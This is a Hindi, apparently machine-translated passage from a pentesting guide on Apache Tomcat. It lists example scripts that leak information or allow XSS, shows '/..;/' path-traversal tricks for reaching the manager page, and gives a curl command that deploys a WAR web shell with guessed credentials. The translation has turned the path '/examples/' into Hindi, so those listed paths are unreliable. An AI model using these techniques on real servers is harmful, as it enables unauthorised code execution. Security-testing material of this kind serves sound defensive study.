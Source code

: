 निम्नलिखित उदाहरण स्क्रिप्ट Apache Tomcat v4.x - v7.x के साथ आते हैं और हमलावरों द्वारा प्रणाली के बारे में जानकारी प्राप्त करने के लिए उपयोग किए जा सकते हैं। इन स्क्रिप्ट्स को भी क्रॉस साइट स्क्रिप्टिंग (XSS) इंजेक्शन के लिए संवेदनशील माना जाता है (यहां से [यहां](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/) देखें)।

* /उदाहरण/jsp/num/numguess.jsp
* /उदाहरण/jsp/dates/date.jsp
* /उदाहरण/jsp/snp/snoop.jsp
* /उदाहरण/jsp/error/error.html
* /उदाहरण/jsp/sessions/carts.html
* /उदाहरण/jsp/checkbox/check.html
* /उदाहरण/jsp/colors/colors.html
* /उदाहरण/jsp/cal/login.html
* /उदाहरण/jsp/include/include.jsp
* /उदाहरण/jsp/forward/forward.jsp
* /उदाहरण/jsp/plugin/plugin.jsp
* /उदाहरण/jsp/jsptoserv/jsptoservlet.jsp
* /उदाहरण/jsp/simpletag/foo.jsp
* /उदाहरण/jsp/mail/sendmail.jsp
* /उदाहरण/servlet/HelloWorldExample
* /उदाहरण/servlet/RequestInfoExample
* /उदाहरण/servlet/RequestHeaderExample
* /उदाहरण/servlet/RequestParamExample
* /उदाहरण/servlet/CookieExample
* /उदाहरण/servlet/JndiServlet
* /उदाहरण/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp

### पथ ट्रावर्सल (..;/)

कुछ [**तोमकैट**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) के कमजोर विन्यासों में आप `/..;/` का उपयोग करके तोमकैट में संरक्षित निर्देशिकाओं तक पहुंच प्राप्त कर सकते हैं।

इसलिए, उदाहरण के लिए, आप शायद तोमकैट प्रबंधक पृष्ठ तक पहुंच सकते हैं इस तरह से: `www.vulnerable.com/lalala/..;/manager/html`

इस ट्रिक का उपयोग करके संरक्षित पथों को छोड़ने के लिए एक और तरीका है `http://www.vulnerable.com/;param=value/manager/html` तक पहुंचना।

## RCE

अंत में, यदि आपके पास तोमकैट वेब एप्लिकेशन प्रबंधक तक पहुंच है, तो आप **एक .war फ़ाइल अपलोड और डिप्लॉय कर सकते हैं (कोड निष्पादित करें)**।

### सीमाएँ

आप केवल तब WAR डिप्लॉय कर सकेंगे जब आपके पास **पर्याप्त विशेषाधिकार** होंगे (भूमिकाएँ: **व्यवस्थापक**, **प्रबंधक** और **प्रबंधक-स्क्रिप्ट**)। इन विवरणों को आमतौर पर `/usr/share/tomcat9/etc/tomcat-users.xml` में परिभाषित किया जाता है (यह संस्करणों के बीच भिन्न हो सकता है) (अधिक जानकारी के लिए [POST ](tomcat.md#post)अनुभाग देखें)।
```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
### Metasploit
